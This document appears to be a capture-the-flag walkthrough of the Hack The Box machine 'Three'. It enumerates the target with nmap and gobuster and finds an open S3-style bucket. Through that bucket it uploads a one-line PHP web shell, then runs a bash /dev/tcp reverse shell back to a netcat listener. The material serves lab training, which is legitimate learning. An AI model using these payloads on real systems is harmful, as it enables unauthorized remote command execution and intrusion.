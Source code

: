 # Three (HTB, Starting Point)

## Enumeration

### NMAP

**Command Used**
```
nmap -v -sC -sV -oA nmap/Three [ip-address]
```

**Output**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.49 seconds
zsh: segmentation fault  nmap -v -sV -sC -oA nmap/Three.nmap 10.129.126.225
```

- Found Port **80** open and running service **Apache httpd 2.4.29 ((Ubuntu))**.
- And Port **22/tcp** open and running service **OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)**.

### On Browser

- Let's check the Running Website on the Target!

![img01](screenshots/img01.png)

### Gobuster

![img02](screenshots/img02.png)

- Looks like a PHP website is running on the machine.

### Inspecting Source Code!

![img03](screenshots/img04.png)

- From the Source Code we found an Email Address.

```
Email: mail@thetoppers.htb
```
Looks the the domain name could be **toppers.htb**

- Lets try to add it to our hosts file and then lookup more in the Website.

### Gobuster with vhosts

![img05](screenshots/img05.png)

- Found a subdomain named as **s3.thetoppers.htb**.

- Checking the url on the browser:

![img06](screenshots/img06.png)

### Getting Details with awscli

**Listing the S3 Resources**

```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

**Output**
![img07](screenshots/img07.png)

**Uploading our PHP webshell to the Target**

**PHP Shell Command**
```
<?php system($_GET['cmd']);?>
```
**Command to upload Shell to the Target:**
```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
### Exploitation

- Checking if our Web-Shell is working fine by runing **id** command:

![img08](screenshots/img11.png)

**Serving a http server from our local machine to upload our reverse shell**

```
sudo python -m http.server 8000
```
- Also start the netcat listener on the configured port number same as in your bash reverse shell.

```
nc -lvnp 1234
```

- Now let's upload and run our Bash reverse shell command:

```
bash -i >& /dev/tcp/[ip-address]/1234 0>&1
```
![img09](screenshots/img08.png)

- On Netcat we instantly get the connection like this:
![img10](screenshots/img10.png)

**DONE**


